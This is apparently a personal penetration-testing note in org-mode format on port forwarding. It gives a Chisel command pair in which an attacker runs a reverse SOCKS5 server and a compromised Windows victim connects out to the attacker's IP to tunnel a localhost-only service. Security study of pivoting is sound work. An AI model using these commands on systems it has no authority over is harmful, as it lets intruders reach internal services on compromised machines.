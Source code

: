:PROPERTIES:
:ID:       cebc9891-81bc-43d5-8a6c-a70f0b1c398a
:END:
#+title: Port Forwarding
#+filetags: :pentest:network:
#+hugo_base_dir:../


* Port Forwarding
** Chisel
Compromised windows machine -- service hosted only at 127.0.0.1 -- attacker machine is server and victim machine is client:
#+begin_src shell -n
# attacker
chisel server --socks5 --reverse -p 1234
# windows victim
chiselx86_64.exe client <attacker ip>:1234 R:9090:127.0.0.1:9090
#+end_src


* Sources
** [[https://github.com/twelvesec/port-forwarding?tab=readme-ov-file][twelvesec]]
